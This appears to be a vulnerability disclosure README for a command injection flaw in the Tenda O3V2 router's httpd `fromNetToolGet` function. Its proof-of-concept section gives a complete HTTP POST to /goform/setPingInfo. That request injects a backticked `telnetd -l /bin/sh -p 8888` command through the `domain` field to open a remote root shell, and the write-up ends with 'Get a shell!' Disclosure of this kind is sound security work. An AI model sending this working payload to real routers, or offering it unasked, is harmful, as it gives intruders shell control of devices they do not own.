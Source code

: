 # Tenda Vulnerability

Vendor:Tenda

Product:O3V2

Version:1.0.0.12(3880)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Tenda router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `fromNetToolGet` function, `domain` is directly passed by the attacker, so we can control the `domain` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `domain` as **`telnetd -l /bin/sh -p 8888`** , and the router will excute it,such as:

```http
POST /goform/setPingInfo HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 104
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/index.html
Cookie: O3V2.0_user=admin

pingMode=tranceroute&action=&hop=1&domain=`telnetd -l /bin/sh -p 8888`&ip=&packetSize=&pro_ver=&timeout=
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
